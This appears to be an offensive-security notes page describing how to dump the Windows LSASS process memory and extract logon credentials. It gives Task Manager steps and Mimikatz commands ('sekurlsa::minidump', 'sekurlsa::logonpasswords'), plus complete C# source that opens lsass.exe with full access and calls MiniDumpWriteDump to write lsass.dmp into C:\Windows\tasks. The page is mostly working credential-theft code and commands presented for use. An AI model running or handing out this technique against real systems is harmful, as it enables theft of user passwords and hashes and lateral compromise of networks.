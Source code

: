 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: AV_Bypass
---
```



<span style="font-size: 35px; color:red"><b>LSASS</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Memory Dump</b></span>
1) Task Manager > details tab > locate lsass.exe process > right click and _Create Dump File_.
2) Copy it to the local machine and process it with Mimikatz 
```
sekurlsa::minidump lsass.dump
sekurlsa::logonpasswords
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>MiniDumpWriteDump</b></span>

C# application to execute a memory dump that we can parse with Mimikatz.
```
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.IO;

namespace MiniDump
{
    class Program
    {
        [DllImport("Dbghelp.dll")]
        static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId, 
          IntPtr hFile, int DumpType, IntPtr ExceptionParam, 
          IntPtr UserStreamParam, IntPtr CallbackParam);

        [DllImport("kernel32.dll")]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, 
          int processId);

        static void Main(string[] args)
        {
            FileStream dumpFile = new FileStream("C:\\Windows\\tasks\\lsass.dmp", FileMode.Create);
            Process[] lsass = Process.GetProcessesByName("lsass");
            int lsass_pid = lsass[0].Id;

            IntPtr handle = OpenProcess(0x001F0FFF, false, lsass_pid);
            bool dumped = MiniDumpWriteDump(handle, lsass_pid, dumpFile.SafeFileHandle.DangerousGetHandle(), 2, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
        }
    }
}
```

Compile it and run it, you'll get a <span style="color:red">lsass.dmp</span> file to use as follows: <span style="color:red">sekurlsa::minidump lsass.dmp</span> and <span style="color:red">sekurlsa::logonpasswords</span>
